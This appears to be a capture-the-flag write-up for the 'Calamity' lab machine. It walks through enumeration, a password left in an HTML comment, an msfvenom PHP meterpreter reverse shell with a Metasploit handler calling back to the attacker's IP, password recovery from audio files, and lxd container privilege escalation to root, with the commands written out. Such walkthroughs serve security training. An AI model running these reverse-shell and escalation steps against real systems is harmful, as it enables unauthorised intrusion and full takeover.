 **Level: **Intermediate

**Task:** find **user.txt** and **root.txt** file on victim’s machine.

Since these labs are online available therefore they have static IP and IP of sense is **10.10.10.27** so let’s begin with nmap port enumeration.

From given below image, you can observe we found port 22 and 80 are open in victim’s network.

![](../img/Calamity Writeup/1.png)

As port 80 is running HTTP on the target machine, so we open the IP address in our browser.

![](../img/Calamity Writeup/2.png)

We don’t find anything on the homepage so we use dirb to enumerate the directories.

![](../img/Calamity Writeup/3.png)

Now we open admin.php, and find a login page. We take a look at the source page but we don’t find anything.

![](../img/Calamity Writeup/5.png)

When we use curl to access the page we find a password commented in the HTML page.

curl  \-v  http://10.10.10.27/admin.php

![](../img/Calamity Writeup/6.png)

We try the username admin and the password we find on the page to login to the page. We then get access to a page that allows us to run php code in it.

![](../img/Calamity Writeup/7.png)

We first try to execute normal PHP payload but are unable to get a stable tty shell, so we use base64 encoded php shell to exploit this web application. We generate a base64 encoded shell using metasploit.

msfvenom  \-p  php/meterpreter/reverse\_tcp lhost\=10.10.14.3  lport\=4444  \-e  php/base64  \-f  raw

![](../img/Calamity Writeup/8.png)

We paste this shell in the target machine’s page between **<?php ?>** tag.

![](../img/Calamity Writeup/9.png)

We setup our listener using metasploit to get reverse shell. As soon as we run our shell on the page we get the reverse shell.

msf  \>  use  exploit/multi/handler

msf exploit(multi/handler)  \>  set payload php/meterpreter/reverse\_tcp

msf exploit(multi/handler)  \>  set lhost  10.10.14.3

msf exploit(multi/handler)  \>  set lport  4444

msf exploit(multi/handler)  \>  exploit

![](../img/Calamity Writeup/10.png)

After getting reverse shell we enumerate through the directories, in **/home/xalvas** we find a file called user.txt. When we open user.txt we find our first flag.

![](../img/Calamity Writeup/11.png)

We also find a file called recov.wav; we download it to our system to gain further information.

download recov.wav  /root/Desktop

We go to alarmclocks directory inside the xalvas directory and find 1 mp3 and 1 wav file. We download both files into our system.

download rick.wav  /root/Desktop/

download xouzouris.mp3  /root/Desktop/

![](../img/Calamity Writeup/12.png)

We use a tool called audacity to perform steganography on the audio files. Listening to the audio we find 2 of them sound similar. We load recov.wav and rick.wav into audacity, invert rick.wav then export the combination of both. After combining both the files we find a password in the audio “**18547936..\***”

![](../img/Calamity Writeup/13.png)

We use the username as xalvas and password that we found in the audio file to log in through ssh into the target machine. When we run id command we find that the user is added in lxd group.

![](../img/Calamity Writeup/15.png)

As lxd is a container technology we can run processes as root using lxd. To exploit this we download “lxd alpine builder” to create an image of alpine Linux.

git clone  https://github.com/saghul/lxd-alpine-builder.git

![](../img/Calamity Writeup/17.png)

Now create a 32-bit Alpine Linux image using lxd alpine builder.

![](../img/Calamity Writeup/18.png)

We send the Linux image to the target machine using scp.

scp alpine\-v3.7\-i686\-20180405\_0501.tar.gz  xalvas@10.10.10.27:

![](../img/Calamity Writeup/19.png)

We go to the target machine and import the Linux image and create an image called ignite with administrative privileges.

mkdir raj

mv   alpine\-v3.7\-i686\-20180405\_0501.tar.gz  raj

lxc image import alpine\-v3.7\-i686\-20180405\_0501.tar.gz  \--alias alpine

lxc image list

lxc init alpine ignite  \-c  security.privileged\=true

![](../img/Calamity Writeup/20.png)

We mount the whole filesystem into the container; we start the container and execute the shell the shell inside. After spawning the shell we open root.txt in /mnt/root/root directory and find the final flag.

lxc config device add ignite mydevice mydevice disk source\=/  path\=/mnt/root recursive\=true

lxc start ignite

lxc exec ignite  /bin/sh

![](../img/Calamity Writeup/21.png)
